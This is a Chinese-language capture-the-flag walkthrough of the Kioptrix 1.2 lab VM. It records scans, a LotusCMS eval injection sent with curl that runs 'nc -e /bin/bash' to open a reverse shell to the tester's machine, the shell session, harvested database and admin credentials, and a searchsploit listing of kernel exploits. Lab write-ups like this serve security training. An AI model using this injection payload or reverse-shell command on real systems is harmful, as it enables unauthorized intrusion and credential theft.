










# 前言

### 靶场介绍

password123 (root)


### 靶场信息

**靶机IP**： 

**靶机介绍：**

**下载（镜像）：**


### 涉及工具


### 思维导图


# 1.信息收集



## 1.1.Nmap信息扫描


### 端口扫描

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### 详细信息

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30:e3:f6:dc:2e:22:5d:17:ac:46:02:39:ad:71:cb:49 (DSA)
|_  2048 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
MAC Address: 00:0C:29:EC:A5:EE (VMware)
```


### 漏洞扫描

扫描花了很长时间，但是回看扫描结果，这里的扫描结果显示存在sql注入

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-trace: TRACE is enabled
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|     http://192.168.200.156:80/index.php?page=index%27%20OR%20sqlspider
|_    http://192.168.200.156:80/index.php?page=loginSubmit%27%20OR%20sqlspider&system=Admin
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-csrf: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=192.168.200.156
|   Found the following possible CSRF vulnerabilities: 
|     
|     Path: http://192.168.200.156:80/gallery/
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.200.156:80/index.php?system=Admin
|     Form id: contactform
|     Form action: index.php?system=Admin&page=loginSubmit
|     
|     Path: http://192.168.200.156:80/index.php?system=Blog&post=1281005380
|     Form id: commentform
|     Form action: 
|     
|     Path: http://192.168.200.156:80/gallery/index.php
|     Form id: 
|     Form action: login.php
|     
|     Path: http://192.168.200.156:80/gallery/gadmin/
|     Form id: username
|     Form action: index.php?task=signin
|     
|     Path: http://192.168.200.156:80/index.php?system=Admin&page=loginSubmit
|     Form id: contactform
|_    Form action: index.php?system=Admin&page=loginSubmit
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /cache/: Potentially interesting folder
|   /core/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /modules/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch'
|_  /style/: Potentially interesting folder
MAC Address: 00:0C:29:EC:A5:EE (VMware)
```


## 1.2 Web渗透



外部渗透方面，我先去探测一下目录扫描，然后再对主页的一些结构和源码进行简单的测试分析，

### 默认页面探测

访问网站主目录，像是一个blog的界面，页面上写的内容



从nmap报告中可以看出是存在sql注入的，但是我刚开始做的时候没有尝试成功




https://www.php.net/manual/zh/function.eval.php




 后台界面,万能密钥简单测试不行。比较重要的一个信息，地下写了“Proudly Powered by: [LotusCMS](http://www.lotuscms.org)”，权限立足阶段可以查询有没有相关cms的exp

http://192.168.200.156/index.php?system=Admin




随便点到一个留言板，可能存在update注入目前不太清楚，然后有时候不能上传传入文件

http://192.168.200.156/index.php?system=Blog&post=1281005380




### 目录扫描

```bash
[08:48:19] 403 -  333B  - /.httr-oauth
[08:48:27] 301 -  357B  - /cache  ->  http://192.168.200.156/cache/
[08:48:28] 200 -  688B  - /core/fragments/moduleInfo.phtml
[08:48:28] 301 -  356B  - /core  ->  http://192.168.200.156/core/
[08:48:28] 403 -  326B  - /data
[08:48:28] 403 -  327B  - /data/
[08:48:28] 403 -  338B  - /data/adminer.php
[08:48:28] 403 -  338B  - /data/autosuggest
[08:48:28] 403 -  335B  - /data/backups/
[08:48:28] 403 -  333B  - /data/cache/
[08:48:28] 403 -  333B  - /data/debug/
[08:48:28] 403 -  351B  - /data/DoctrineORMModule/cache/
[08:48:28] 403 -  332B  - /data/logs/
[08:48:28] 403 -  351B  - /data/DoctrineORMModule/Proxy/
[08:48:28] 403 -  333B  - /data/files/
[08:48:28] 403 -  336B  - /data/sessions/
[08:48:28] 403 -  331B  - /data/tmp/
[08:48:30] 200 -   23KB - /favicon.ico
[08:48:31] 301 -  359B  - /gallery  ->  http://192.168.200.156/gallery/
[08:48:35] 301 -  359B  - /modules  ->  http://192.168.200.156/modules/
[08:48:35] 200 -    2KB - /modules/
[08:48:38] 301 -  362B  - /phpmyadmin  ->  http://192.168.200.156/phpmyadmin/
[08:48:39] 401 -  521B  - /phpmyadmin/scripts/setup.php
[08:48:39] 200 -    8KB - /phpmyadmin/
[08:48:39] 200 -    8KB - /phpmyadmin/index.php
[08:48:41] 403 -  335B  - /server-status
[08:48:41] 403 -  336B  - /server-status/
[08:48:43] 301 -  357B  - /style  ->  http://192.168.200.156/style/
[08:48:45] 200 -   18B  - /update.php
```

可以看到整个目录结构，但是具体内容无法读取

```text
http://192.168.200.156/modules/
```


重点，我想去关注一下dashboard里面的内容，看看有没有会存放一些关于控制后台的密码泄露之类的东西


# 2.权限立足



在登入界面看到提示  （Proudly Powered by: [LotusCMS](http://www.lotuscms.org)）, 结合网站主页底部 @2011 缩小范围，上网搜寻exp 和 poc。

https://nvd.nist.gov/vuln/detail/CVE-2011-0518

https://www.exploit-db.com/exploits/16982

https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/http/lcms_php_exec

执行payload

```bash
curl -X POST "http://192.168.200.156/index.php" \
-d "page=index');\${passthru('nc -e /bin/bash 192.168.200.142 4444')};//"
```

连接反弹shell 


### 过程AI总结

[0x002-Kioptrix1.2拿下webshell过程](0x002-Kioptrix1.2拿下webshell过程.md)


### 1.3 红笔追加操作


# 3.权限提升


操作步骤

检查当前用户，升级交互模式

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 4444                                                
listening on [any] 4444 ...
connect to [192.168.200.142] from (UNKNOWN) [192.168.200.156] 47095

whoami
www-data
whereis python
python: /usr/bin/python2.5 /usr/bin/python /etc/python2.5 /etc/python /usr/lib/python2.4 /usr/lib/python2.3 /usr/lib/python2.5 /usr/local/lib/python2.5 /usr/include/python2.5 /usr/share/python /usr/share/man/man1/python.1.gz

python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Kioptrix3:/home/www/kioptrix3.com$ 
```

Web目录源码分析收集有效信息

```bash
www-data@Kioptrix3:/home/www/kioptrix3.com$ find . -name "*conf*"
find . -name "*conf*"
./modules/TinyMCE/tiny_mce/plugins/inlinepopups/skins/clearlooks2/img/confirm.gif
./gallery/gconfig.php
./data/config
./data/modules/Blog/data/config.txt
www-data@Kioptrix3:/home/www/kioptrix3.com$ 
```

```php
cat gconfig.php
<?php
        error_reporting(0);
        /*
                A sample Gallarific configuration file. You should edit
                the installer details below and save this file as gconfig.php
                Do not modify anything else if you don't know what it is.
        */

        // Installer Details -----------------------------------------------

        // Enter the full HTTP path to your Gallarific folder below,
        // such as http://www.yoursite.com/gallery
        // Do NOT include a trailing forward slash

        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";

        // Setting Details -------------------------------------------------

if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
                echo("A connection to the database couldn't be established: " . mysql_error());
                die();
}else {
        if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                echo("The Gallarific database couldn't be opened: " . mysql_error());
                die();
        }else {
                $settings=mysql_query("select * from gallarific_settings");
                if(mysql_num_rows($settings)!=0){
                        while($data=mysql_fetch_array($settings)){
                                $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
                        }
                }

        }
}

?>
```

```php
        $GLOBALS["gallarific_mysql_server"] = "localhost";

        $GLOBALS["gallarific_mysql_database"] = "gallery";

        $GLOBALS["gallarific_mysql_username"] = "root";

        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";
```


| admin | n0t7t1k4 |


利用Dirty COW提权

kali

```bash
┌──(kali㉿kali)-[~/vulnhub/Kioptrix1.2]
└─$ searchsploit linux kernel 2.6.24
----------------------------------------------------------------------------------------------- --------------------------------- Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel (Solaris 10 / < 5.10 138888-01) - Local Privilege Escalation                      | solaris/local/15962.c
Linux Kernel 2.4.1 < 2.4.37 / 2.6.1 < 2.6.32-rc5 - 'pipe.c' Local Privilege Escalation (3)     | linux/local/9844.py
Linux Kernel 2.4.4 < 2.4.37.4 / 2.6.0 < 2.6.30.4 - 'Sendpage' Local Privilege Escalation (Meta | linux/local/19933.rb
Linux Kernel 2.6.0 < 2.6.31 - 'pipe.c' Local Privilege Escalation (1)                          | linux/local/33321.c
Linux Kernel 2.6.10 < 2.6.31.5 - 'pipe.c' Local Privilege Escalation                           | linux/local/40812.c
Linux Kernel 2.6.17 < 2.6.24.1 - 'vmsplice' Local Privilege Escalation (2)                     | linux/local/5092.c
Linux Kernel 2.6.19 < 5.9 - 'Netfilter Local Privilege Escalation                              | linux/local/50135.c
Linux Kernel 2.6.20/2.6.24/2.6.27_7-10 (Ubuntu 7.04/8.04/8.10 / Fedora Core 10 / OpenSuse 11.1 | linux/remote/8556.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privilege Esca | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalation (/e | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Method)   | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation  | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Method)    | linux/local/40611.c
Linux Kernel 2.6.23 < 2.6.24 - 'vmsplice' Local Privilege Escalation (1)                       | linux/local/5093.c
Linux Kernel 2.6.24_16-23/2.6.27_7-10/2.6.28.3 (Ubuntu 8.04/8.10 / Fedora Core 10 x86-64) - 's | linux_x86-64/local/9083.c
Linux Kernel 2.6.27.7-generic/2.6.18/2.6.24-1 - Local Denial of Service                        | linux/dos/7454.c
Linux Kernel 2.6.9 < 2.6.25 (RHEL 4) - utrace and ptrace Local Denial of Service (1)           | linux/dos/31965.c
Linux Kernel 2.6.9 < 2.6.25 (RHEL 4) - utrace and ptrace Local Denial of Service (2)           | linux/dos/31966.c
Linux Kernel 3.14-rc1 < 3.15-rc4 (x64) - Raw Mode PTY Echo Race Condition Privilege Escalation | linux_x86-64/local/33516.c
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                           | linux/dos/43234.c
Linux Kernel 4.8.0 UDEV < 232 - Local Privilege Escalation                                     | linux/local/41886.c
Linux Kernel < 2.6.26.4 - SCTP Kernel Memory Disclosure                                        | linux/local/7618.c
Linux Kernel < 2.6.28 - 'fasync_helper()' Local Privilege Escalation                           | linux/local/33523.c
Linux Kernel < 2.6.29 - 'exit_notify()' Local Privilege Escalation                             | linux/local/8369.sh
Linux Kernel < 2.6.30.5 - 'cfg80211' Remote Denial of Service                                  | linux/dos/9442.c
Linux Kernel < 2.6.31-rc4 - 'nfs4_proc_lock()' Denial of Service                               | linux/dos/10202.c
Linux Kernel < 2.6.31-rc7 - 'AF_IRDA' 29-Byte Stack Disclosure (2)                             | linux/local/9543.c
Linux Kernel < 2.6.34 (Ubuntu 10.10 x86) - 'CAP_SYS_ADMIN' Local Privilege Escalation (1)      | linux_x86/local/15916.c
Linux Kernel < 2.6.34 (Ubuntu 10.10 x86/x64) - 'CAP_SYS_ADMIN' Local Privilege Escalation (2)  | linux/local/15944.c
Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32) - 'CAN BCM' Local Privilege Escalation       | linux/local/14814.c
Linux Kernel < 2.6.36-rc4-git2 (x86-64) - 'ia32syscall' Emulation Privilege Escalation         | linux_x86-64/local/15023.c
Linux Kernel < 2.6.36-rc6 (RedHat / Ubuntu 10.04) - 'pktcdvd' Kernel Memory Disclosure         | linux/local/15150.c
Linux Kernel < 2.6.36.2 (Ubuntu 10.04) - 'Half-Nelson.c' Econet Privilege Escalation           | linux/local/17787.c
Linux Kernel < 2.6.37-rc2 - 'ACPI custom_method' Local Privilege Escalation                    | linux/local/15774.c
Linux Kernel < 2.6.37-rc2 - 'TCP_MAXSEG' Kernel Panic (Denial of Service) (2)                  | linux/dos/16952.c
Linux Kernel < 3.16.1 - 'Remount FUSE' Local Privilege Escalation                              | linux/local/34923.c
